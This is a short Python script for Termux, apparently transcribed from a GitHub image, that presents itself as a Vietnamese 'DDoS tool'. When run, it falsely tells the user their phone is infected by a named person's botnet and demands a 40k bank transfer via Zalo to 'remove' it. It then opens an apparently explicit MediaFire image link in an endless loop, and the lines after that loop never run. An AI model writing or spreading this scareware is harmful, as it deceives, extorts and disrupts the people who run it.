 import os

from os import system

import time

from time import sleep

import requests

import os, sys,time
print(" Đang Vào Tools Doos.")

sleep(0.2)

print(" Đang Vào Tools Doos....")

sleep(0.2)

print("Máy Bạn Đã Bị Dính BotNet Của Nguyễn Việt Hoà")

sleep(0.1)

print("Không Gỡ Được Đâu")

sleep(0.2)

print("Bank Anh 40k Ah Gỡ Cho")

sleep(0.1)

print(" Zalo : Nguyen Viet Hoa  ")

sleep(0.1)

print("Không Làm Đòi Có Ăn")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

while True:
    os.system('termux-open-url https://www.mediafire.com/file/f4mfj5owtzfrcgc/NudeOK.Com+(1).jpg/file?dkey=0hu48x2j976&r=838')

sleep(0.2)

print("Máy Bạn Đã Bị Dính BotNet Của Nguyễn Việt Hoà")

sleep(0.2)

print("Máy Bạn Đã Bị Dính BotNet Của Nguyễn Việt Hoà")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")

sleep(0.2)

print("💋😋😋💋😑🐶🤕🐶🤡💋💖🐶👿🤡🐶💋🙊👿🐶👿🧄🤫😻😒😒🧄🤫💋😛💋😋💋😑💋🤪💋🤪🧄😀🐶😴💋👿🐶🤫🧄😴🧄😴🧄😴🧄🤫✅💋🤫💋🤫🐶😴🧄😋😻🤫💋👿🧄❎🧄🤮😛🙄✅🐶😴😻🤫❎🙄😛🐶😴😻💖🙄😴💖🧄😴😻💖💋😀💋🤮")
